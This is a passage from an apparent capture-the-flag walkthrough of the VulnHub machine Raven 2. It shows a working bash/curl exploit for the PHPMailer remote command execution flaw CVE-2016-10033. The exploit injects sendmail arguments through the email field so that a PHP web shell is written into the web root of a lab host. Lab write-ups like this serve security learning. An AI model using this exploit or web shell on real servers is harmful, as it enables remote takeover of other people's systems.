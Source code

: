 PHPMailer versions before 5.2.18 is susceptible to remote command execution, as documented in [CVE-2016-10033](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10033).

To that end, I wrote a `bash` script, using `curl` as the main driver for the exploit.

<div class="filename"><span>exploit.sh</span></div>

```bash
#!/bin/bash

TARGET=http://raven.local/contact.php

DOCROOT=/var/www/html
FILENAME=backdoor.php
LOCATION=$DOCROOT/$FILENAME

STATUS=$(curl -s \
              --data-urlencode "name=Hackerman" \
              --data-urlencode "email=\"hackerman\\\" -oQ/tmp -X$LOCATION blah\"@badguy.com" \
              --data-urlencode "message=<?php echo shell_exec(\$_GET['cmd']); ?>" \
              --data-urlencode "action=submit" \
              $TARGET | sed -r '146!d')

if grep 'instantiate' &>/dev/null <<<"$STATUS"; then
  echo "[+] Check ${LOCATION}?cmd=[shell command, e.g. id]"
else
  echo "[!] Exploit failed"
fi
```

The exploit, once executed, will create a PHP backdoor `backdoor.php` that allows remote command execution. Let's give it a shot.

<a class="image-popup">
![7aa89c20.png](/assets/images/posts/raven-2-walkthrough/7aa89c20.png)
</a>

Awesome.

<a class="image-popup">

[1]: https://www.vulnhub.com/entry/raven-2,269/
[2]: https://twitter.com/@mccannwj
[3]: https://www.vulnhub.com/